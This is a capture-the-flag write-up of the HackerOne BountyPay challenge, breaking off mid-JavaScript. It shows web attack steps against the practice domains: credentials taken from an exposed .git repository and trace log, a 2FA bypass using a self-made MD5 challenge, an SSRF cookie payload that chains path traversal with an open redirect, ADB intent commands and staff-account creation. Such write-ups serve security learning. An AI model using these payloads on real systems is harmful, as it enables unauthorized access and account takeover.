# BountyPay CTF Writeup
CTF Page: https://hackerone.com/h1-ctf/
My writeup is also available on HackerOne: https://hackerone.com/reports/895780

# The Competition Begins!
The tweet announces the CTF challenge. Looks like we will need to find a way to process some payments.



# Initial Exploring
Reading up on the extended description at https://hackerone.com/h1-ctf/ reveals that the target of this competition are the domains within `*.bountypay.h1ctf.com`. 

Scanning for available subdomains revealed:
- https://bountypay.h1ctf.com
- https://app.bountypay.h1ctf.com
- https://www.bountypay.h1ctf.com
- https://staff.bountypay.h1ctf.com
- https://api.bountypay.h1ctf.com
- https://software.bountypay.h1ctf.com

The description also mentioned that we should keep a look out on the HackerOne twitter for clues. I took a closer look through their feed.


Right away, this particular retweet stood out:


Viewing their profile shows:



I wonder who they are following?


Sandra has a very interesting tweet!


Zoom, enhance! Her staff ID is clearly visible in this tweet. `STF:8FJ3KFISL3`. Thanks, Sandra, this should come in handy later. 

Scanning the barcode didn't seem to reveal anything. Best to move on for now and to look at the sites.

# Beginning the Journey
First things first, https://bountypay.h1ctf.com/.


The main site is pretty uneventful, just a splash screen with two external login pages, and some tumbleweeds.

The customer login is hosted on https://app.bountypay.h1ctf.com/, and the staff login is on https://staff.bountypay.h1ctf.com/.

The login pages were sanitized against SQL injection, and there was no way to create a new account. 

Well, maybe we need to explore some more.


# Fuzz Faster U Fool
Time to do some directory bruteforcing to see if anything is available other than the login pages. I scanned for directories on the `app` domain.

```yaml
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
images                  [Status: 301, Size: 194, Words: 7, Lines: 8]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8] 
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1] 
.                       [Status: 301, Size: 194, Words: 7, Lines: 8]                  
.git                    [Status: 403, Size: 170, Words: 5, Lines: 7] 
cgit                    [Status: 403, Size: 170, Words: 5, Lines: 7]
```

That `.git` is very interesting. Trying to `GET` it returned a 403, but what about it's contents? 

I tried going to `/.git/config` in my browser, and it started downloading.


# Finding a Way In

Let's see that git config up close:
```yaml
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/bounty-pay-code/request-logger.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```

The GitHub account has one repository with one file in it, `logger.php`.

```php
<?php

$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```

Looks like they are logging their site activity to `bp_web_trace.log`. Let's grab that file off of `app`.

```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

Decoding the base64 entries shows:
```json
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```

Great, we've got our username and password. Let's login to `app`.

# Trying the Door



Should be smooth sailing. Only it looks like they have one more security step...


Trying the code from the log didn't work, these codes are generated new every time.

Here, I used one of my favourite Burp Suite features, `Prominently highlight hidden fields`.


That is prominent enough for me. Looks like the frontend sends the backend both the challenge and the challenge answer. I can just set both to whatever I want. 

The challenge looks like an MD5 hash. I made up my own challenge answer, generated the hash of it, and then sent both. 



Login successful.

# Looking For Greener Grass



Well. Turns out our friend Brian Oliver kind of sucks. Loading all the statements from all the months and years that the UI provides (and the additional months and years that the backend supports but the UI doesn't show) turns up nothing. 

Looking around a bit, I was curious if I could gather any information from the cookie. The cookie was set to:
`eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9`. 

Decoding the base64 string returns: `{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}`.

I also noticed that every time I clicked to `Load Transactions`, it would fire off a request like:
`https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK/statements?month=01&year=2020`. 

It is interesting that the account id of my cookie also appears in this URL. From experimenting, I could see that editing the cookie to change the account id also changes the API request. We could potentially use an account id here that triggers a different endpoint.

## Investigating Possibilities of the API Domain
To exploit the api, we need to understand api. Going to `api.bountypay.h1ctf.com` shows:



The link is a cheeky redirect to google search what a rest api is. (https://api.bountypay.h1ctf.com/redirect?url=https://www.google.com/search?q=REST+API). Cheeky as it may be, this is an open redirect that we could make use of to perform a SSRF.

Exploring the endpoints from the browser (e.g. navigating to https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK), just returns `["Missing or invalid Token"]`. Looks like the main page with the redirect is all we have access to for now.

## Finding Our Target
The software domain looks like a likely target for a SSRF. It was rudely refusing access altogether due to our IP. 


## Performing the Attack
It is time to do some SSRF.

I set the cookie to the base64 encoded version of 
```json
{
    "account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=",
    "hash":"de235bffd23df6995ad4e0930baac1a2"
}
```

The `../` characters navigate us to the base api endpoint in order to use the `/redirect` path. 

I had to use the `&disregard=` at the end in order to make the browser **not** interpret the rest of the imposed url (`/statements?month=01&year=2020"`) to mean "use the `/statements` endpoint".

The final URL looks like: `https://api.bountypay.h1ctf.com/api/accounts/../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=/statements?month=01&year=2020`

With this request we are able to connect to the `software` domain and see...another login page. At least this time we are able to access it instead of just being given a 401.

# These Are the Droids You Are Looking For
I scanned to see what directories are available on the `software` domain without being logged in.

```json
{
    "account_id": "../../redirect?url=https://software.bountypay.h1ctf.com/FUZZ&disregard=",
    "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```

It turned up a folder, `uploads`. This page was a directory listing containing a file `BountyPay.apk`. Navigating my browser to https://software.bountypay.h1ctf.com/uploads/BountyPay.apk downloaded the application.

# Dreaming of Electric Sheep


Loading the application lets us put in a username and twitter name, and then it displays a blank page. Well, okay. Perhaps if we decompile the source code we can find something interesting.


The code is split into:

- `PartOneActivity.java`
- `PartTwoActivity.java`
- `PartThreeActivity.java`

## PartOneActivity
The blank screen we saw earlier was the first activity in the list. Looking at the source code, I found the trigger for starting the second activity:

```java
String firstParam = getIntent().getData().getQueryParameter("start");
if (firstParam != null && firstParam.equals("PartTwoActivity") && settings.contains(str)) {
    String str2 = "";
    String user = settings.getString(str, str2);
    Editor editor = settings.edit();
    String twitterhandle = settings.getString("TWITTERHANDLE", str2);
    editor.putString("PARTONE", "COMPLETE").apply();
    logFlagFound(user, twitterhandle);
    startActivity(new Intent(this, PartTwoActivity.class));
}
```

Intents are messages instructing that you want an action to be be performed. This includes launching activities (screens of the app).

From the code it looks like we can slide into part 2 if we just launch part one with the proper parameters (`PartTwoActivity` = `start`). We can launch customized intents with the debugger program, ADB:

```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartOneActivity" -a android.intent.action.VIEW -d one://part?start=PartTwoActivity
Starting: Intent { act=android.intent.action.VIEW dat=one://part?start=PartTwoActivity cmp=bounty.pay/.PartOneActivity }
```

This immediately triggers part 2, which welcomes us with...another blank screen.

## PartTwoActivtiy
The first thing to stand out in the code was this snippet:

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("two");
String secondParam = data.getQueryParameter("switch");
if (firstParam != null && firstParam.equals("light") && secondParam != null && secondParam.equals("on")) {
    editText.setVisibility(0);
    button.setVisibility(0);
    textview.setVisibility(0);
}
```

There are several components that become visible with the right intent parameters.

Launching with ADB:
```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartTwoActivity" -a android.intent.action.VIEW -d two://part?two=light\&switch=on
```

The lights are on now!



Inputting the string into the `Header value` box didn't do anything. 

The string looks like an MD5 hash. Decrypting it uncovers an original value of `Token`. Still, inputting `Token` would not move to the next section. Hmm, time to inspect more of the code.

The button click listener was performing this logic:

```java
String value = (String) dataSnapshot.getValue();
SharedPreferences settings = PartTwoActivity.this.getSharedPreferences(PartTwoActivity.KEY_USERNAME, 0);
Editor editor = settings.edit();
String str = post;
StringBuilder sb = new StringBuilder();
sb.append("X-");
sb.append(value);
if (str.equals(sb.toString())) {
    String str2 = "";
    PartTwoActivity.this.logFlagFound(settings.getString("USERNAME", str2), settings.getString("TWITTERHANDLE", str2));
    editor.putString("PARTTWO", "COMPLETE").apply();
    PartTwoActivity.this.correctHeader();
    return;
}
Toast.makeText(PartTwoActivity.this, "Try again! :D", 0).show();
```

Well, looks like we need to have a `X-` prefix to the value that goes in. Inputting `X-Token` gets us through to part 3.

## PartThreeActivity
Blank screens don't phase me anymore, let's dive into the code.

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("three");
String secondParam = data.getQueryParameter("switch");
String thirdParam = data.getQueryParameter("header");
byte[] decodeFirstParam = Base64.decode(firstParam, 0);
byte[] decodeSecondParam = Base64.decode(secondParam, 0);
final String decodedFirstParam = new String(decodeFirstParam, StandardCharsets.UTF_8);
final String decodedSecondParam = new String(decodeSecondParam, StandardCharsets.UTF_8);
```

Ok, three parameters. We need to send in the first two base64 encoded this time.

```java
String value = (String) dataSnapshot.getValue();
if (str != null && decodedFirstParam.equals("PartThreeActivity") && str2 != null && decodedSecondParam.equals("on")) {
    String str = secondParam2;
    if (str != null) {
        StringBuilder sb = new StringBuilder();
        sb.append("X-");
        sb.append(value);
        if (str.equals(sb.toString())) {
            editText2.setVisibility(0);
            button2.setVisibility(0);
            PartThreeActivity.this.thread.start();
        }
    }
}
```

And sending in the correct parameters will once again make some items visible. It also starts a thread, but we can come back to that.

Remembering to base64 the first two parameter values (`PartThreeActivity`, `on`), we can turn on the lights for the second time today:

```bash
am start -n "bounty.pay/bounty.pay.PartThreeActivity" -a android.intent.action.VIEW -d three://part?three=UGFydFRocmVlQWN0aXZpdHk\=\&switch=b24\=\&header=X-Token
```



One more input box that we need to fill with the correct value. Let's take a closer look now at what that thread was that we started:

```java
this.thread = new Thread(new Runnable() {
public void run() {
    PartThreeActivity.this.performPostCall(PartThreeActivity.this.getSharedPreferences(PartThreeActivity.KEY_USERNAME, 0).getString("TOKEN", ""));
}
});
```

It performs a POST call when we use the right arguments. Let's see if we can intercept this to find the answer to this section.

I managed to find a particular message sent from the app that caught my attention!

```json
{
    "t": "d",
    "d": {
        "b": {
            "p": "X-Token",
            "d": "8e9998ee3137ca9ade8f372739f062c1"
        },
        "a": "d"
    }
}
```

The X-Token makes an appearance! Submitting it gets us clear to the end of the stage.


We should be able to use this X-Token to authenticate with the BountyPay API.

# Rummaging Through API
I tried again to load the accounts endpoint from before, but this time sending the X-Token as a header.

https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK

This time I got back:
```json
{
    "account_id": "F8gHiqSdpK",
    "owner": "Mr Brian Oliver",
    "company": "BountyPay Demo "
}
```

We're in! Once again, time to scan to see what endpoints are available other than `accounts`.

Some directory bruteforcing came up with this endpoint: https://api.bountypay.h1ctf.com/api/staff/

Doing a GET request got back:
```json
[
    {
        "name": "Sam Jenkins",
        "staff_id": "STF:84DJKEIP38"
    },
    {
        "name": "Brian Oliver",
        "staff_id": "STF:KE624RQ2T9"
    }
]
```

We know about Brian, and his lack of access to useful statements. Sam Jenkins is a newcomer, but we don't have a way to access his login information. 

I tried to send a POST request to create a staff account for myself. The api helpfully let me know that I needed to provide a `staff_id`, and `name`. Still, no matter what I put, the api would say the `staff_id` was invalid.

Looking at the two staff members again, I noticed that our social media guru, Sandra, was not there. I suppose she hasn't started work yet, and they haven't set up her account. Maybe we can push her start date up a bit and make her account for her.



Welcome to the team, Sandra!

# Masquerading As Sandra


Using my newfound identity, I went over to https://staff.bountypay.h1ctf.com.


After looking around a bit, I realized that even though Sandra is a staff member, she is not an admin, and some site content remained hidden. Maybe we can find a way to boost the account into being one.

The site has a report feature where you can tell the admins about an issue with a page. 


Clicking the button sends a base64 encoded string of the URL of the current page you are on. The wording that the admins will look at the page makes me think that we can design a malicious page that promotes us to admin when viewed by an admin.

There was a file, `website.js` that piqued my interest. Looking at it, function by function:
```javascript
$('.upgradeToAdmin').click(function () {
	let t = $('input[name="username"]').val();
	$.get('/admin/upgrade?username=' + t, function () {
		alert('User Upgraded to Admin');
	});
}), 
```
Well, this is interesting! Looks like there is a button to upgrade users to administrators. This button doesn't appear anywhere on my UI, looks as though you have to be an admin to see it. This does reveal though what endpoint you have to hit to get the functionality. 

Trying `/admin/upgrade?username=sandra.allison` manually just returned an error saying I didn't have permission to do this. Reporting this URL didn't change anything. (The prompt did say any reports in the `/admin` directory would be ignored.) They even were filtering out obfuscating the path by doing things like `/pls-let-me-in/../admin/upgrade?username=sandra.allison`. Let's look at what else is in `website.js` for now.

```javascript
$('.tab').click(function () {
	return $('.tab').removeClass('active'), $(this).addClass('active'), $('div.content').addClass('hidden'), $('div.content-' + $(this).attr('data-target')).removeClass('hidden'), !1;
}), 
```
This powers the tab buttons on the site. When you click a tab it will hide the current site content and unhide the content related to the current tab. Not too interesting.

```javascript
$('.sendReport').click(function () {
	$.get('/admin/report?url=' + url, function () {
		alert('Report sent to admin team');
	}), $('#myModal').modal('hide');
}), 
```
We see the logic for the report sending here. It shows the URL for reporting urls here. We can just call `/admin/report?url=` directly now.

```javascript
document.location.hash.length > 0 && 
    (
        '#tab1' === document.location.hash && $('.tab1').trigger('click'), 
